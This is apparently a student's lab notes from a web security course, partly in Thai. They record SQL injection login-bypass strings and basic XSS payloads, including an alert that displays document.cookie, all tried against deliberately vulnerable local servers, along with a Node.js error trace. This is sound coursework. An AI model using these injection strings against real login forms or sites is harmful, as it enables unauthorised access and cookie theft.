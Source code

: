 Experiment 1: SQL Injection
<!-- รันตอนแรก Postman -> localhost:3001/login error this logs

***
TypeError: Cannot destructure property 'username' of 'req.body' as it is undefined.
    at C:\Users\JrKh1\Documents\GitHub\engse214-665432100071\lab3\pre-lab3\experiment1\vulnerable-server.js:14:13
    at Layer.handleRequest (C:\Users\JrKh1\Documents\GitHub\engse214-665432100071\lab3\pre-lab3\node_modules\router\lib\layer.js:152:17)
    at next (C:\Users\JrKh1\Documents\GitHub\engse214-665432100071\lab3\pre-lab3\node_modules\router\lib\route.js:157:13)
    at Route.dispatch (C:\Users\JrKh1\Documents\GitHub\engse214-665432100071\lab3\pre-lab3\node_modules\router\lib\route.js:117:3)
    at handle (C:\Users\JrKh1\Documents\GitHub\engse214-665432100071\lab3\pre-lab3\node_modules\router\index.js:435:11)
    at Layer.handleRequest (C:\Users\JrKh1\Documents\GitHub\engse214-665432100071\lab3\pre-lab3\node_modules\router\lib\layer.js:152:17)
    at C:\Users\JrKh1\Documents\GitHub\engse214-665432100071\lab3\pre-lab3\node_modules\router\index.js:295:15
    at processParams (C:\Users\JrKh1\Documents\GitHub\engse214-665432100071\lab3\pre-lab3\node_modules\router\index.js:582:12)
    at next (C:\Users\JrKh1\Documents\GitHub\engse214-665432100071\lab3\pre-lab3\node_modules\router\index.js:291:5)
    at serveStatic (C:\Users\JrKh1\Documents\GitHub\engse214-665432100071\lab3\pre-lab3\node_modules\serve-static\index.js:74:16)
***
แก้ไข postman -> post domain raw {username,password} -->

ผลการทดลอง http://localhost:3001/index.html
username admin';--
password ' OR '1='1';-- || UNION SELECT 1,2,3,4;--
สามารถเข้าสู่ระบบได้ทั้งหมดทุกรหัสที่กล่าวมา ( Login successful! )
และlog แสดง query 

---
Experiment 2: XSS (Cross-Site Scripting) พื้นฐาน
ผลการทดลอง http://localhost:3002/index.html
Basic XSS: alert('XSS Attack!')
Image XSS:< src=x onerror=alert('XSS via IMG')>
Cookie Stealing: alert('Cookie: ' + document.cookie)
DOM Manipulation: document.body.style.backgroundColor='red'